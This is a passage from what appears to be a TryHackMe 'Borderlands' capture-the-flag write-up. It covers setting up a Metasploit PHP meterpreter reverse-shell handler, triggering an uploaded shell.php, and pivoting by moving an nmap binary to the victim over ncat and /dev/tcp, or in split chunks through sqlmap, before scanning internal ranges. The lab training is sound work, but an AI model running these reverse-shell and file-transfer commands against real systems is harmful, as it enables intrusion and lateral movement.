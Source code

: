 Open up msfconsole and punch the following setting.

```
msf> use multi/handler
msf exploit(handler) > set lport 4445
msf exploit(handler) > set lhost tun0
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > exploit
```

Visit the following URL to trigger the reverse shell

```
http://<Machine IP>/shell.php
```

### Task 1-5: Pivot the machine

There is numerous way to complete this task. User tsuki recommends using Nmap static binary to do the recon and transfer the file using ncat and bash shell. (I haven't test it)

```
ncat -lvnp 80 < nmap
cat > /tmp/nmap < /dev/tcp/<tunnel IP>/80
```

My approach is a bit dumb but it just works. Basically I compressed the file and split into 512 Kb size and then upload through the sqlmap uploader. This is because of the limitation of upload file size by Nginx server.

```
split -b 512K nmap.tar.xz
```

After that, we are going to join the split packet in the victim machine.

```
cat xa* > namp.tar.xz
tar -xvf nmap.tar.xz
```

Before we do a scan, we have to know the private IP address range.

![address range](/assets/images/THM/2020-08-13-borderlands/23.png)

The most suitable candidate is 172.x.x.x. Why? Private IP started with 10.x.x.x used by THM and 192.168.x.x is usually for home router. Context is a big company, 172.x.x.x might be our only way in. If we brute-forcing our way in, there will be more than 1 million possibilities. The most commonly used subnet is 172.16.0.0/16. Just do a fast scan with the following command.
